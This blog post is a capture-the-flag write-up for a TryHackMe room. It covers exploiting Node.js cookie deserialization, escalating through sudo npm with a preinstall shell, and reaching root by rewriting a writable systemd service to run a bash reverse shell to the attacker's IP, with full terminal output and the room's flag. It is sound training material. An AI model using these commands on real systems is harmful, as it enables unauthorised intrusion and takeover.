 ```yaml
---
layout: post
title:  "THM: VulnNet2 Node"
date:   2021-09-20 21:00:00 +1000
category: hacking
---
```


I decided to run back at a THM room I signed up for a long time ago but didn't complete at the time. Here's [VulnNet2 Node](https://tryhackme.com/room/vulnnetnode). It's easy rated but it's not *that* easy; it's also quite 'realistic', which I appreciate. 

## Ports
8080 only; that's a HTTP port running Node.js Express framework

## Web
Visiting the site we get set a cookie:

>session=eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D

This is base64 encoded, and decodes to:

>{"username":"Guest","isGuest":true,"encoding": "utf-8"}

If we modify the cookie (like deleting part of it), we can prompt some error messages - if we GET '/'. Note this doesn't work if we GET /login:

{% highlight html %}
SyntaxError: Unexpected end of JSON input
&nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)
&nbsp; &nbsp;at Object.exports.unserialize (/home/www/VulnNet-Node/node_modules/node-serialize/lib/serialize.js:62:16)
&nbsp; &nbsp;at /home/www/VulnNet-Node/server.js:16:24
&nbsp; &nbsp;at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)
&nbsp; &nbsp;at next (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:137:13)
&nbsp; &nbsp;at Route.dispatch (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:112:3)
&nbsp; &nbsp;at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)
&nbsp; &nbsp;at /home/www/VulnNet-Node/node_modules/express/lib/router/index.js:281:22
&nbsp; &nbsp;at Function.process_params (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:335:12)
&nbsp; &nbsp;at next (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:275:10)
{% endhighlight %}

Doing some Googling brings us [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) and the 'Further Exploitation' section is the exact scenario set up in this box:

>The vulnerability in the web application is that it reads a cookie named profile from the HTTP request, perform base64 decode of the cookie value and pass it to unserialize()function. As cookie is an untrusted input, an attacker can craft malicious cookie value to exploit this vulnerability.

We can use the provided code to get a shell:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vulnet_node]
└─# nc -nvlp 1234  
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.181.160] 55900
Connected!
python3 -c 'import pty;pty.spawn("/bin/bash");'
www@vulnnet-node:~/VulnNet-Node$ sudo -l
sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
{% endhighlight %}

## serv-manage
We can use [GTFOBins](https://gtfobins.github.io/gtfobins/npm/) here:

{% highlight shell %}
www@vulnnet-node:~/VulnNet-Node$ cd /tmp
cd /tmp
www@vulnnet-node:/tmp$ TF=$(mktemp -d)
TF=$(mktemp -d)
www@vulnnet-node:/tmp$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
www@vulnnet-node:/tmp$ ls -lash
ls -lash
total 44K
4.0K drwxrwxrwt 10 root root 4.0K Sep 20 13:00 .
4.0K drwxr-xr-x 23 root root 4.0K Jan 24  2021 ..
4.0K drwxrwxrwt  2 root root 4.0K Sep 20 12:53 .font-unix
4.0K drwxrwxrwt  2 root root 4.0K Sep 20 12:53 .ICE-unix
4.0K drwx------  3 root root 4.0K Sep 20 12:54 systemd-private-2e351f5890d74d62afebb6bd83046e54-systemd-resolved.service-xig7F8
4.0K drwx------  3 root root 4.0K Sep 20 12:53 systemd-private-2e351f5890d74d62afebb6bd83046e54-systemd-timesyncd.service-7u2Fbv
4.0K drwxrwxrwt  2 root root 4.0K Sep 20 12:53 .Test-unix
4.0K drwx------  2 www  www  4.0K Sep 20 13:00 tmp.um8Xndifyt
4.0K -r--r--r--  1 root root   11 Sep 20 12:54 .X0-lock
4.0K drwxrwxrwt  2 root root 4.0K Sep 20 12:54 .X11-unix
4.0K drwxrwxrwt  2 root root 4.0K Sep 20 12:53 .XIM-unix
www@vulnnet-node:/tmp$ chmod 777 tmp.um8Xndifyt
chmod 777 tmp.um8Xndifyt
www@vulnnet-node:/tmp$ sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.um8Xndifyt
> /bin/sh

$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
serv-manage@vulnnet-node:/tmp/tmp.um8Xndifyt$
{% endhighlight %}

## Root
What can we do now? Some systemctl stuff. I'll stop the timer, and then find where it's saved:

{% highlight shell %}
serv-manage@vulnnet-node:~$ sudo -l
sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
serv-manage@vulnnet-node:~$ sudo -u root /bin/systemctl stop vulnnet-auto.timer
sudo -u root /bin/systemctl stop vulnnet-auto.timer
serv-manage@vulnnet-node:~$ locate vulnnet-auto.timer
locate vulnnet-auto.timer
/etc/systemd/system/vulnnet-auto.timer
{% endhighlight %}

When we have a look we can see that the timer calls a service, and we can write them both (the timer and the service):

{% highlight shell %}
4.0K -rw-rw-r--  1 root serv-manage  167 Jan 24  2021 vulnnet-auto.timer
4.0K -rw-rw-r--  1 root serv-manage  197 Jan 24  2021 vulnnet-job.service
serv-manage@vulnnet-node:/etc/systemd/system$ cat vulnnet-job.service
cat vulnnet-job.service
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
serv-manage@vulnnet-node:/etc/systemd/system$ cat vulnnet-auto.timer
cat vulnnet-auto.timer
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
serv-manage@vulnnet-node:/etc/systemd/system$
{% endhighlight %}

So, let's do that. I overwrite the service file and restart the timer, with a new 
listener:

{% highlight shell %}
serv-manage@vulnnet-node:/etc/systemd/system$ !22
!22
cat vulnnet-job.service
[Unit]
Description=Whatever

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "/bin/bash -i >& /dev/tcp/10.9.10.123/1235 0>&1"

[Install]
WantedBy=multi-user.target
serv-manage@vulnnet-node:/etc/systemd/system$ sudo -l
sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
serv-manage@vulnnet-node:/etc/systemd/system$ sudo -u root /bin/systemctl start vulnnet-auto.timer
vulnnet-auto.timersystemctl start v
serv-manage@vulnnet-node:/etc/systemd/system$
{% endhighlight %}

Separately:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vulnet_node]
└─# nc -nvlp 1235  
listening on [any] 1235 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.181.160] 53514
bash: cannot set terminal process group (1044): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnnet-node:/# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
vulnnet-node
Mon Sep 20 13:12:59 CEST 2021
root@vulnnet-node:/# cd /root
cd /root
root@vulnnet-node:~# ls -lash
ls -lash
total 100K
4.0K drwx------ 18 root root 4.0K Mar 21  2021 .
4.0K drwxr-xr-x 23 root root 4.0K Jan 24  2021 ..
   0 lrwxrwxrwx  1 root root    9 Jan 24  2021 .bash_history -> /dev/null
4.0K -rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
4.0K drwx------  6 root root 4.0K Mar 21  2021 .cache
4.0K drwx------ 12 root root 4.0K Mar 21  2021 .config
4.0K drwx------  3 root root 4.0K Mar 21  2021 .dbus
4.0K drwx------  2 root root 4.0K Mar 21  2021 Desktop
4.0K -rw-r--r--  1 root root   41 Mar 21  2021 .dmrc
4.0K drwxr-xr-x  2 root root 4.0K Mar 21  2021 Documents
4.0K drwxr-xr-x  3 root root 4.0K Mar 21  2021 Downloads
4.0K drwx------  3 root root 4.0K Mar 21  2021 .gnupg
4.0K drwxr-xr-x  3 root root 4.0K Jan 24  2021 .local
4.0K drwx------  5 root root 4.0K Mar 21  2021 .mozilla
4.0K drwxr-xr-x  2 root root 4.0K Mar 21  2021 Music
4.0K drwxr-xr-x  4 root root 4.0K Jan 24  2021 .npm
4.0K drwxr-xr-x  2 root root 4.0K Mar 21  2021 Pictures
4.0K drwxr-xr-x  5 root root 4.0K Jan 24  2021 .pm2
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K drwxr-xr-x  2 root root 4.0K Mar 21  2021 Public
4.0K -rw-------  1 root root   38 Jan 24  2021 root.txt
4.0K drwxr-xr-x  2 root root 4.0K Mar 21  2021 Templates
4.0K drwxr-xr-x  2 root root 4.0K Mar 21  2021 Videos
4.0K -rw-------  1 root root   57 Mar 21  2021 .Xauthority
4.0K -rw-r--r--  1 root root   14 Feb 12  2018 .xscreensaver
4.0K -rw-------  1 root root 2.4K Mar 21  2021 .xsession-errors
root@vulnnet-node:~# cat root.txt
cat root.txt
THM{abea728f211b105a608a720a37adabf9}
{% endhighlight %}

Boom. I haven't actually done a systemctl privesc with a timer before, although it's pretty much the same as a service version.
